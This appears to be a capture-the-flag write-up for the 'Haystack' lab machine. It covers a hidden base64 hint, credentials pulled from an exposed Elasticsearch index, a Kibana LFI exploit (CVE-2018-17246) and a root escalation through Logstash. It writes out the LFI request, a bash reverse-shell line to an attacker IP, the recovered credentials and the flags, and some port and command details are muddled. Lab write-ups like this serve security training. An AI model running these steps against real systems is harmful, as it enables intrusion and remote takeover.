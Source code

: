 # Summary
- User: hint hidden at the end of an image file and an exposed Elasticsearch instance that contains two entries (related to the hint from the image) with a username and password used for SSH login
- Root: LFI exploit in Kibana web interface that makes it possible to execute a JavaScript script and gain access as the Kibana user which permits writing a command to a file which will match against a Logstash search and be executed by the root user

# Details
### User: 04d18bc79dac1d4d48ee0a940c8eb929
- Nmap scan reveals ports 22, 80, and 9200 open, with an HTTP server listening on 9200
- the website displays only a single image of a needle
- downloading the image and running `strings` on it reveals a base64 encoded string at the end ('bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==')
- when decoded, the string reads `la aguja en el pajar es "clave"` and when translated to English `the needle in the haystack is "key"`
- making a request to the service on port 9200 reveals it's an Elasticsearch instance
- Elasticsearch indices can be retrieved with `http://haystack.htb:9200/_cat/indices`, revealing two interesting indices names `quotes` and `bank`
- searching the `quotes` index for the word `clave` in the `quote` field with `curl haystack.htb:9200/quotes/_search -H 'Content-Type: application/json' -d '{"query": {"match": {"quote": "clave" }}}' | python -m json.tool` reveals two results that each contain a base64 encoded string
- decoding each string (`dXNlcjogc2VjdXJpdHkg`, `cGFzczogc3BhbmlzaC5pcy5rZXk=`) reveals `user: security` and `pass: spanish.is.key` which can be used to login over SSH

### Root: 3f5f727c38d9f70e1d2ad2ba11059d92
- enumerating reveals the server is also listening for local connections on port 5601, which is used by Kibana
- port forwarding port 5901 on the target box with `curl -L 5901:localhost:5901 security@haystack.htb` makes it possible to interact with the Kibana admin panel
- the Kibana web interface reveals it's version 6.4.2 and is vulnerable to a local file inclusion vulnerabiltiy which can lead to code execution
- this makes it possible to put a reverse Node shell on the server and then trigger it with `localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../path/to/shell.js`
- any time the shell disconnects, a different filename needs to be used for the reverse shell in order to reconnect
- shell access as the `kibana` user makes it possible to match against Logstash configuration files inside `/etc/logstash/conf.d` by writing files to `/opt/kibana`
	- the Logstash service is being run by the `root` user
	- can be found by searching for files owned by the `kibana` group with `find / -type f -group kibana 2>/dev/null`
- schedule execution of a bash reverse shell by writing `Ejecutar comando: bash -i >& /dev/tcp/10.10.14.41/9406 0>&1` to a file under the `/opt/kibana` directory with the filename beginning with `logstash_`

### References:
- https://github.com/mpgn/CVE-2018-17246
- https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell
